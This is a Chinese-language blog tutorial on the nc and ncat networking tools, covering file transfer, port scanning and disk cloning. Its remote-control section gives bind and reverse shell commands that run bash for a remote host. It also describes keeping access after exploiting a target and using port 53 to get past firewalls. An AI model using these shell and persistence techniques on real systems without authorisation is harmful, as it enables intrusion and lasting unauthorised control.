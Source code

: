 ```yaml
---
layout: post
title: "nc、ncat使用"
date: 2022-07-27
tags: [kali, 渗透测试]
comments: true
toc: true
author: JumpWang

---
```


## natcat

> [v1.10-41.1+b1]
>
> connect to somewhere:   nc [-options] hostname port[s] [ports] ...
>
> listen for inbound:     nc -l -p port [-options] [hostname] [port]
>
> options:
>
>   -c shell commands       as `-e'; use /bin/sh to exec [dangerous!!]
>
>   -e filename             program to exec after connect [dangerous!!]
>
>   -b                      allow broadcasts
>
>   -g gateway              source-routing hop point[s], up to 8
>
>   -G num                  source-routing pointer: 4, 8, 12, ...
>
>   -h                      this cruft
>
>   -i secs                 delay interval for lines sent, ports scanned
>
>   -k                      set keepalive option on socket
>
>   -l                      listen mode, for inbound connects
>
>   -n                      numeric-only IP addresses, no DNS
>
>   -o file                 hex dump of traffic
>
>   -p port                 local port number
>
>   -r                      randomize local and remote ports
>
>   -q secs                 quit after EOF on stdin and delay of secs
>
>   -s addr                 local source address
>
>   -T tos                  set Type Of Service
>
>   -t                      answer TELNET negotiation
>
>   -u                      UDP mode
>
>   -v                      verbose [use twice to be more verbose]
>
>   -w secs                 timeout for connects and final net reads
>
>   -C                      Send CRLF as line-ending
>
>   -z                      zero-I/O mode [used for scanning]
>
> port numbers can be individual or ranges: lo-hi [inclusive];
>
> hyphens in port names must be backslash escaped (e.g. 'ftp\-data').

- 可用于电子取证

  实际上是传输文本的能力，~~可以用于聊天~~、从被取证对象上收集信息

  pc1：监听4444端口

  ```sh
  nc -l -p 4444
  ```

  pc2：连接目标网址的4444端口

  ```sh
  nc -nv 10.139.21.74 4444
  ```

- 传输文件

  A等B连上并将发送的数据存到1.mp4

  A：

  ```sh
  nc -lp 4444 > 1.mp4
  ```

  B：

  ```sh
  nc -nv 1.1.1.1 4444 < 1.mp4 -q 1
  ```

  -q 1 表示发送完1s自动关闭

  A等B连上一连上就向B发送mp4

  A:

  ```sh
  nc -lp 4444 < 1.mp4 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444
  ```

- 传输目录

  A:

  ```sh
  tar -cvf -music/ | nc -lp 4444 -q 1
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | tar -xvf -
  ```

- 传输加密文件（使用mcrypt命令）

  A:

  ```sh
  nc -lp 4444 | mcrypt -flush -Fbqd -a rijndael-256 -m ecb > 1.mp4
  ```

  B:

  ```sh
  mcrypt -flush -Fbq -a rijndael-256 -m ecb < 1.mp4 | nc -nv 1.1.1.1 4444 -q 1
  ```

- 流媒体服务器

  A:

  ```sh
  cat 1.mp4 | nc -lp 4444
  ```

  B:

  ```sh
  nc -nv 1.1.1.1 4444 | mplayer -vo xll -cache 3000 -
  ```

- 端口扫描

  -z：扫描模式，探测端口状态

  ```sh
  nc -nvz 1.1.1.1 1-65535
  ```

  -u：nc默认扫描tcp，扫描udp需要使用-u

  ```sh
  nc -vnzu 1.1.1.1 1-1024
  ```

  但我在尝试的时候发现nc多个端口并没有任何回显，不知道是什么原因

- 远程克隆硬盘

  nc还是只起到传输的作用，关键在于`dd`命令，会原原本本的复制硬盘，复制每一个1和0，包括已删除的部分

  ```sh
  nc -lp 4444 | dd of=/dev/sda
  dd if=/dev/sda | nc -nv 1.1.1.1 4444 -q 1
  ```

- 运程控制

  ​	在成功通过漏洞进入目标主机后，可以通过这种方式继续保持连接，比如设置脚本在每次开机的时候使用。尤其是反向连接用处很大。

  ​	因为服务器基本上都配置了防火墙，像很多防护做的不太好的网络管理员也会在防火墙上将由外向内的陌生端口访问全部禁掉。比如只开放80端口，443端口之类的，这种情况下想要在目标主机开放一个端口等待连接，我们基本上是连接不上的（被防火墙过滤）。但是由内向外的访问这些防火墙不会阻止，反向连接就有了用场。

  ​	有些防护意识很好的管理员会禁用一些由内向外的访问的端口，但是像常用的端口也不会进行拦截，比如DNS解析用的53端口，我们就可以开放53端口等待连接。

  ​	如果是跑业务的服务器，向外的所有端口都被禁止了，那就没办法了。

  - 正向

    A：

    ```sh
    nc -lp 4444  -c bash
    ```

    B: 

    ```sh
    nc 1.1.1.1 4444
    ```

  - 反向

    A:

    ```sh
    nc -lp 4444
    ```

    B:

    ```sh
    nc 1.1.1.1 4444 -c bash
    ```

    nc是跨平台的，windows这里将bash换为cmd

## ncat

 nc的缺点：

- 明文传输，缺乏加密能力，可能遭受到嗅探、中间人的挟持等等等
- 缺乏身份验证的能力，打开的端口可以被所有人控制，我们留下的通道其他黑客也能使用

ncat是nmap内包含的一个工具，是为了弥补nc的缺陷被开发出来的，使用ncat进行信息传输，传输的管道本身是被加密的

A（被控端）：

`--allow`是指定一个ip，允许这个ip连接

```sh
ncat -c bash --allow 1.1.1.1 -vnl 4444 --ssl
```

B：

```sh
ncat -nv 1.1.1.1 4444 --ssl
```

# 

